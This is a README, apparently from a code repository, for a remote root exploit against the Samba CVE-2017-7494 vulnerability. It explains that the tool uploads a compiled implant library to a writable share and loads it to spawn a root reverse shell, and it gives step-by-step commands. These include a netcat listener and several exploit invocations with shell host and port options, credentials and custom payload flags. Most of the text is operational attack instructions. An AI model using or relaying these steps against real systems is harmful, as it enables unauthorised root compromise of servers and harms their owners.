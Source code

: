 # CVE-2017-7494

Remote root exploit for the SAMBA CVE-2017-7494 vulnerability.

## Details

This exploit is divided in 2 parts:

 * First, it compiles a payload called "implant.c" and generates a library (libimplantx32.so or libimplantx64.so) that changes to the root user, detaches from the parent process and spawns a reverse shell.
 * Second, it finds a writeable share in the specified target host, uploads the library with a random name and tries to load it.

As long as the target is vulnerable and the payload is the correct for the target operating system and architecture, the exploit is 100% reliable.

## How to

In your machine, run the following command:

```
$ nc -p 31337 -l
```

Then, run the exploit against your target and wait until it connects back to your Netcat:

```
$ python cve_2017_7494.py -t target_ip
```

If you close too fast the reverse shell, instead of running again the exploit uploading the module, etc... you can just pass the path to the module it already uploaded. Supposing it was uploaded to /shared/directory/ as "module.so", you would run a command like the following one:

```
$ python cve_2017_7494.py -t target_ip -m /shared/directory/module.so
```


## UPDATE 11/25/2017 - Archivaldo

You can now run the exploit again samba 3.5.0 and 3.6.0, you just need add the argument -o 1
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -o 1 
```

You can now use your own custom .so
```
python cve_2017_7494.py -t target_ip -u test -P 123456 -o 1 --custom myso.so
```

In case you need to run this script from a x86 machine, compiling the implant binaries will create two x86 files. Using the flag -n 1 you can disable compilation and copy libimplantx64.so from another machine.
```
python cve_2017_7494.py -t target_ip -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

In case samba runs just on port 139. You can set the remote server port using the argument -p
```
python cve_2017_7494.py -t target_ip -p 139 -u test -P 123456 --rhost shell_ip --rport shell_port -n 1
```

## TODO

I might update it at some point adding support for non Intel based architectures.

--
Joxean Koret
